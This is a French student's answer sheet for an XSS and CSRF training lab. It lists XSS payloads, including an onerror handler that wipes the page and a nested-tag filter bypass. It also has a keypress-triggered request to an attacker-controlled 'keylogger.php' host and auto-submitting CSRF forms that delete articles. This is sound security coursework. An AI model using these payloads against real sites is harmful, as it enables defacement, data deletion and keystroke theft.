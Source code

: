 # Mes réponses - XSS & CSRF

## Partie 1 - XSS
### Level 1
1. `https://xss-csrf-tp.herokuapp.com/level/1?page=1%3Cimg%20src=%22https://cdn.pixabay.com/photo/2016/08/16/10/18/dragon-1597583_960_720.png%22/%3E`

### Level 2
1. `<script>alert('Toto')</script>`
2. La balise ne fonctionne pas, car les script sont bloqués par sécurité.
3. Les données sont récupérées en POST.
4. `<img src='toto.jpg' onerror="body.remove()" ></img>`
5.

### Level 3
1. `<i<img>mg src='toto.jpg' onerror="body.remove()"/>`
2. (Ou avec fetch, mais j'avais pas envie :) )
```javascript
    (function() {
      var httpRequest;
      window.addEventListener('keypress', makeRequest);

      function makeRequest() {
        httpRequest = new XMLHttpRequest();

        if (!httpRequest) {
          console.log('Abandon :( Impossible de créer une instance de XMLHTTP');
          return false;
        }
        httpRequest.onreadystatechange = alertContents;
        httpRequest.open('GET', 'https://my-malicious-website-brugiere.herokuapp.com/keylogger.php');
        httpRequest.setRequestHeader('Access-Control-Allow-Origin', null);
        httpRequest.send();
      }

      function alertContents() {
        if (httpRequest.readyState === XMLHttpRequest.DONE) {
          if (httpRequest.status === 200) {
            console.log(httpRequest.responseText);
          } else {
            console.log('Il y a eu un problème avec la requête.');
          }
        }
      }
    })();
```

## Partie 2 - CSRF
1. [Site Heroku](https://my-malicious-website-brugiere.herokuapp.com/)

2.
```php
    <?php include_once("index.html"); ?>

    <form
    	action="https://xss-csrf-tp.herokuapp.com/articles/delete"
    	method="GET"
        id="42"
    >
    </form>

    <script>
    	document.getElementById("42").submit();
    </script>
```

3.
```php
    <?php include_once("index.html"); ?>

    <iframe name="hiddenIFrame" style="display: none;"></iframe>

    <form
    	action="https://xss-csrf-tp.herokuapp.com/articles/delete"
        method="about:blank"
        id="42"
        target="hiddenIFrame"
    >
    </form>

    <script>
    	document.getElementById("42").submit();
    </script>
```
